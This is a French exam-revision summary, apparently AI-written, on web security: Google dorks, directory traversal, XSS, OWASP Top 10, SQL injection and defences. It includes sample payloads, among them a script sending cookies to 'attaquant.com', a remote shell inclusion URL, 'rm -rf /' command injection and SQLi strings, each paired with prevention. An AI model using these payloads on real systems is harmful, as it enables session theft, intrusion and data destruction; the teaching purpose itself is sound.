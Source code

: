 Voici un résumé **approfondi et structuré** des documents pour vous préparer à votre examen, en français :

---

### **1. Parcours de répertoires / Google Dorks**  
#### **Recherche avancée avec Google Dorks** :  
- **Opérateurs clés** :  
  - `intitle:"index of"` : Recherche des pages listant des fichiers (ex. : logs, backups).  
  - `filetype:pdf` ou `filetype:xls` : Cible des documents spécifiques.  
  - `site:exemple.com` : Limite les résultats à un domaine.  
  - `inurl:iisstart.htm` : Identifie les serveurs IIS.  
  - `cache:exemple.com` : Affiche la version mise en cache d’une page.  
- **Exemples pratiques** :  
  - Recherche de fichiers sensibles : `"password" filetype:xls site:tek-up.de`.  
  - Détection de serveurs mal configurés : `intitle:"index of" server:Apache/2.2.34`.  

#### **Parcours de répertoires (Directory Traversal)** :  
- **Technique** : Utilise `../` pour accéder à des fichiers hors du répertoire web racine (ex. : `../../../../etc/passwd`).  
- **Exploitation** :  
  - Lire des fichiers système (logs, configurations).  
  - Exécuter des commandes via des scripts vulnérables.  
- **Prévention** :  
  - Valider les chemins d’accès.  
  - Utiliser des fonctions sécurisées (ex. : `realpath()` en PHP).  

---

### **2. Failles XSS (Cross-Site Scripting)**  
#### **Types d’attaques** :  
1. **XSS réfléchi (Reflected XSS)** :  
   - Le code malveillant est injecté via une URL et exécuté immédiatement (ex. : formulaire de recherche non filtré).  
   - **Exemple** : `https://victime.com/recherche?q=<script>alert('xss')</script>`.  
   - **Conséquence** : Vol de cookies de session via un lien trompeur.  

2. **XSS stocké (Stored XSS)** :  
   - Le code est enregistré dans une base de données (ex. : forum, commentaires).  
   - **Exemple** : Un message contenant `<img src=x onerror="voler_cookie()">` s’exécute à chaque consultation.  
   - **Conséquence** : Attaque persistante affectant tous les utilisateurs.  

3. **XSS basé sur le DOM (DOM-based XSS)** :  
   - Exploite des vulnérabilités dans le code JavaScript côté client (ex. : modification du `document.location`).  

#### **Exploitation pratique** :  
- **Vol de cookies** :  
  ```javascript
  <script>
    document.location = "http://attaquant.com/steal?cookie=" + document.cookie;
  </script>
  ```  
- **Redirection vers un site malveillant** :  
  ```javascript
  window.location.href = "http://phishing.com";
  ```  

#### **Prévention** :  
- **Validation des entrées** : Bloquer les caractères spéciaux (`<`, `>`, `"`).  
- **Encodage des sorties** :  
  - HTML : `htmlspecialchars()` en PHP.  
  - JavaScript : `Encoder.encodeForJavaScript()`.  
- **En-têtes de sécurité** :  
  - `Content-Security-Policy` (CSP) pour interdire l’exécution de scripts externes.  
  - `HttpOnly` pour protéger les cookies.  

---

### **3. OWASP Top 10 (Édition 2007)**  
#### **A1 – Cross-Site Scripting (XSS)**  
- **Impact** : Vol de données, usurpation d’identité, attaques CSRF.  
- **Prévention** : Encodage des sorties, CSP, validation stricte des entrées.  

#### **A2 – Failles d’injection (SQLi, OS Command Injection)**  
- **SQL Injection** :  
  - **Union-based** : `UNION SELECT username, password FROM users --`.  
  - **Blind SQLi** : Inférence via des réponses booléennes (ex. : `IF(1=1) WAITFOR DELAY '0:0:5'`).  
  - **Prévention** : Requêtes préparées (ex. : `PreparedStatement` en Java), désactiver les messages d’erreur détaillés.  

- **Command Injection** :  
  - Exploite des fonctions système (ex. : `exec()` en PHP).  
  - **Exemple** : `ping 127.0.0.1; rm -rf /`.  
  - **Prévention** : Valider les entrées, utiliser des bibliothèques sécurisées.  

#### **A3 – Exécution de fichiers malveillants (File Inclusion)**  
- **Local File Inclusion (LFI)** :  
  - Exploite des paramètres vulnérables (ex. : `?page=../../etc/passwd`).  
- **Remote File Inclusion (RFI)** :  
  - Charge des scripts externes (ex. : `?page=http://attaquant.com/shell.txt`).  
- **Prévention** : Désactiver `allow_url_include` en PHP, utiliser des chemins statiques.  

#### **A4 – Référence directe non sécurisée à un objet (IDOR)**  
- **Exemple** : Accès à des ressources via des IDs prévisibles (ex. : `file=1`, `file=2`).  
- **Prévention** : Vérifier les autorisations de l’utilisateur, utiliser des identifiants aléatoires (UUID).  

#### **A5 – Cross-Site Request Forgery (CSRF)**  
- **Attaque** : Forcer un utilisateur à effectuer une action sans son consentement (ex. : formulaire caché).  
- **Exemple** :  
  ```html
  <img src="https://banque.com/virement?to=attaquant&montant=1000" width="0" height="0">
  ```  
- **Prévention** : Jetons CSRF (`token` unique par session), vérifier l’en-tête `Referer`.  

#### **A6 – Fuites d’information**  
- **Risques** : Messages d’erreur détaillés révélant des chemins ou versions de serveurs.  
- **Prévention** : Afficher des erreurs génériques (ex. : "Erreur interne du serveur").  

#### **A7 – Violation de gestion d’authentification**  
- **Problèmes** : Sessions non renouvelées après connexion, stockage de mots de passe en clair.  
- **Solutions** :  
  - Utiliser `bcrypt` ou `Argon2` pour le hachage.  
  - Regénérer les identifiants de session après authentification.  

#### **A8 – Stockage cryptographique non sécurisé**  
- **Exemples** :  
  - Stockage de CVV de cartes bancaires.  
  - Chiffrement faible (ex. : MD5 pour les mots de passe).  
- **Bonnes pratiques** :  
  - Chiffrement AES-256 pour les données sensibles.  
  - Respecter les normes PCI DSS pour les paiements.  

#### **A9 – Communications non sécurisées**  
- **Risques** : Données transmises en clair via HTTP.  
- **Prévention** :  
  - Forcer l’utilisation de HTTPS.  
  - Configurer HSTS (HTTP Strict Transport Security).  

#### **A10 – Défaillance dans la restriction des accès URL**  
- **Exemple** : Accès à des pages admin sans vérification des rôles.  
- **Prévention** :  
  - Contrôler les autorisations à chaque niveau (client et serveur).  
  - Utiliser des frameworks de sécurité (ex. : Spring Security, Django Guards).  

---

### **4. Injection SQL (SQLi)**  
#### **Techniques d’exploitation** :  
- **Union-based SQLi** :  
  - `UNION SELECT null, username, password FROM users --`.  
- **Error-based SQLi** :  
  - Exploiter les erreurs SQL pour récupérer des données (ex. : `AND 1=CONVERT(int, (SELECT @@version))`).  
- **Blind SQLi** :  
  - Inférence via des délais ou des réponses booléennes (ex. : `IF(SUBSTRING(@@version,1,1)='5') WAITFOR DELAY '0:0:5'`).  

#### **Outils** :  
- **SQLMap** : Automatise la détection et l’exploitation des vulnérabilités.  

#### **Prévention** :  
- **Requêtes préparées** :  
  - Java : `PreparedStatement`.  
  - PHP : `PDO` avec `bindParam()`.  
- **Filtrage des entrées** : Bloquer les mots-clés SQL (ex. : `DROP`, `UNION`).  

---

### **5. Bonnes pratiques générales**  
1. **Validation des entrées** :  
   - Bloquer les caractères spéciaux (ex. : `<`, `>`, `'`).  
   - Utiliser des regex pour valider les formats (emails, numéros).  
2. **Encodage des sorties** :  
   - HTML : `htmlspecialchars()` en PHP.  
   - JavaScript : `encodeURI()`.  
3. **Mises à jour** :  
   - Maintenir les CMS, frameworks et dépendances à jour.  
4. **Tests de sécurité** :  
   - Utiliser **BurpSuite** pour tester les vulnérabilités.  
   - Simuler des attaques sur des plateformes comme **Mutillidae**.  

---

Bonne chance pour votre examen ! 🚀  
N’hésitez pas à réviser en pratiquant des scénarios réels (ex. : CTFs, labs OWASP).
